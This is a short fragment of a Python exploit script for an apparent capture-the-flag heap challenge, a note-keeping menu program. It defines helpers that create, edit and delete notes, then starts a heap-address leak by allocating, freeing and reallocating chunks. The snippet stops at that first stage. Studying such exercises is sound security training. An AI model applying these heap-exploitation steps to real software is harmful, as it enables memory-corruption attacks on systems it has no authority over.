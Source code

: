 ```python
def new(cont):

	p.recvuntil('Your choice: ')

	p.sendline('2')

	p.recvuntil('Length of new note: ')

	p.sendline(str(len(cont)))

	p.recvuntil('Enter your note: ')

	p.sendline(cont)



def edit(num,cont):

	p.recvuntil('Your choice: ')

	p.sendline('3')

	p.recvuntil('Note number: ')

	p.sendline(str(num))

	p.recvuntil('Length of note: ')

	p.sendline(str(len(cont)))

	p.recvuntil('Enter your note: ')

	p.sendline(cont)



def delete(num):

	p.recvuntil('Your choice: ')

	p.sendline('4')

	p.recvuntil('Note number: ')

	p.sendline(str(num))


#leak heap_base
new('a'*0x80)#0

new('b'*0x80)#1

new('c'*0x80)#2

new('d'*0x80)#4



delete(0)

delete(2)
new('11111111')

```